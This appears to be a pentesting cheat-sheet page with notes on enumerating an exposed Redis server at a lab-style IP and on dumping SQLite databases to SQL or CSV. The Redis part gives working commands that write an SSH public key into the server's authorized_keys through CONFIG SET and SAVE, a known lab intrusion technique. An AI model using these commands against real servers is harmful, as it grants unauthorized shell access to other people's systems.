 ## Redis 

- Redis-tools: `sudo apt-get install redis-tools`
- <http://antirez.com/news/96>
- Connect and basic query:
    ```bash
    redis-cli -h 10.10.10.160
    10.10.10.160:6379> dbsize
    (integer) 0
    (0.51s)
    10.10.10.160:6379> CONFIG GET databases
    1) "databases"
    2) "16"
    (0.63s)
    10.10.10.160:6379> INFO keyspace
    # Keyspace
    (0.56s)
    10.10.10.160:6379> INFO
    ```
- Write to authorized_keys file:
    ```bash
    ssh-keygen -f redis
    echo -ne "\n\n" > public; cat redis.pub >> public

    redis-cli -h 10.10.10.160 SLAVEOF NO ONE
    
    cat public | redis-cli -h 10.10.10.160 -x set pub
    
    redis-cli -h 10.10.10.160 CONFIG SET dir /var/lib/redis/.ssh
    redis-cli -h 10.10.10.160 CONFIG SET dbfilename authorized_keys
    redis-cli -h 10.10.10.160 SAVE
    ```

## Sqlte

Dump entire database:
```bash
sqlite3 some.db .schema > schema.sql
sqlite3 some.db .dump > dump.sql
grep -vx -f schema.sql dump.sql > data.sql
```
```python
import sqlite3
conn = sqlite3.connect("users.db")
cursor = conn.execute("Select * from sqlite_master")
for i in cursor.fetchall():
    print i
```

Dump into CSV
```sql
.mode csv
-- use '.separator SOME_STRING' for something other than a comma.
.headers on
.out file.csv
select * from MyTable;
```
